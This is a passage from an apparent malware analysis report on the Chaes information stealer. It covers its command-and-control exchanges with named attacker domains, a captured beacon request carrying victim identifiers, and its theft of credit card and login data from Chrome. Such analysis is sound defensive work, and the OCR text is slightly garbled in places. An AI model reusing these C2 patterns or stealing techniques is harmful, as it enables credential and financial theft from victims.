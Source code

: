 FIGURE 23

![](_page_14_Picture_9.jpeg)

#### Chaes Communication with the C2

The communication between chase.dl/ and its C2 server is made up of three repetitive post and requests calls:

- NewClient: provides the C2 with information from the victim's machine (machine name, user name, uid, operating system version and malware version).
- Instructions: sends and receives content that was base64-encoded and then encrypted.
- Config: which is also encoded and encrypted.

|  |  |  |  | FIGURE 24 Chaes communicates with the C2 |
| --- | --- | --- | --- | --- |
| Process Name Source |  | Destination | Protocol Name Description |  |
| hhc.exe |  | awsgold.xyz | HTTP | HTTP:Request, POST /aws/newClient.php |
| hhc.exe | awsgold.xyz |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL: Vaws/newClient.php |
| hhc.exe |  | awsgold.xyz | HTTP | HTTP: Request, POST /aws/instructions |
| hhc.exe | awsgold.xyz |  | HTTP | HTTP: Response, HTTP/1.1, Status: Ok, URL: Vaws/instructions |
| hhc.exe |  | upload-jupiter2020.dd ... | HILLE | HTTP:Request, POST /config |
| hhc.exe | upload-jupiter20 ... |  | HTTP | HTTP:Response, HTTP/1.1, Status: Ok, URL /config |

| FIGURE 25 Chaes "NewClient.php" communication |
| --- |
| POST /aws/newClient.php HTTP/1.1.. Accept: * /* .. Content-Type: |
| application/x-www-form-urlencoded..User-Agent: Mozilla/5.0 (Windows NT |
| 6.1; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) |
| Chrome/84.0.4147.105 Safari/537.36..Host: |
| evolved-thief.online. . Content-Length: 71. . Cache-Control: |
| no-cache uid=B855E7B6 &pyv=CHAES.01&wos=498139398&cna= |
| Lina- |

#### Stealing Information from the Browser

In addition, the hhc.exe process creates several .sql files named local.sql, these SQL databases are being used in order to extract sensitive information from the Chrome browser similar to other traditional information stealers, some of the SQL tables are related to credit cards, login credentials of websites and personal information of a user:

> FIGURE 26 Credit card related database to extract information from the browser
